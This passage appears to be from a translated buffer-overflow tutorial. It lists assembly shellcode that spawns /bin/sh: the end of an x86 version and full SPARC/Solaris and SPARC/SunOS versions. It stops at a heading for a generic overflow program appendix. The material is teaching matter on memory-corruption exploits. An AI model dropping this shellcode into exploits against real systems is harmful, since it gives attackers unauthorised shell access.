 ```assembly
inc		%eax
int		$0x80
call 	-0x24 
.string \"/bin/sh\"
```



SPARC/Solaris

```assembly
sethi 	0xbd89a, %l6 
or		%l6, 0x16e, %l6
sethi 	0xbdcda, %l7 
and		%sp, %sp, %o0
add		%sp, 8, %o1
xor		%o2, %o2, %o2
add		%sp, 16, %sp
std		%l6, [%sp - 16]
st		%sp, [%sp - 8]
st		%g0, [%sp - 4]
mov		0x3b, %g1
ta		8
xor		%o7, %o7, %o0
mov		1, %g1
ta		8
```



SPARC/SunOS

```assembly
sethi 	0xbd89a, %l6 
or%l6, 	0x16e, %l6
sethi 	0xbdcda, %l7 
and		%sp, %sp, %o0
add		%sp, 8, %o1
xor		%o2, %o2, %o2
add		%sp, 16, %sp
std		%l6, [%sp - 16]
st		%sp, [%sp - 8]
st		%g0, [%sp - 4]
mov		0x3b, %g1
mov		-0x1, %l5
ta		%l5 + 1
xor		%o7, %o7, %o0
mov		1, %g1
ta		%l5 + 1
```



#### 附录B：Generic Buffer Overflow Program


